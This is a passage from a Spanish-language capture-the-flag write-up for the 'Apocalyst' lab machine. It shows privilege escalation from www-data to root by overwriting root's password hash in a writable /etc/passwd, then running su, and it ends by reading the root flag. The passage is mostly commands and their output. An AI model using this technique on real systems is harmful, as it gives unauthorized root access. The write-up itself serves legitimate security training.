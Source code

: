 Ahora lo modificamos en el `/etc/passwd`

```bash
www-data@apocalyst:/$ nano /etc/passwd
Unable to create directory /var/www/.nano: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

www-data@apocalyst:/$ cat /etc/passwd | head -n 1
root:/Wdb/9WH9GO3Q:0:0:root:/root:/bin/bash
www-data@apocalyst:/$ 
```

Ahora simplemente hacemos un `su root` e indicamos la contraseña que indicamos con `openssl`

```bash
www-data@apocalyst:/$ su root
Password: 
root@apocalyst:/# whoami
root
root@apocalyst:/# id
uid=0(root) gid=0(root) groups=0(root)
root@apocalyst:/# 
```

```bash
root@apocalyst:/# cat /root/root.txt 
32a76f406ffba3867799d81fbac52d66
root@apocalyst:/# 
```
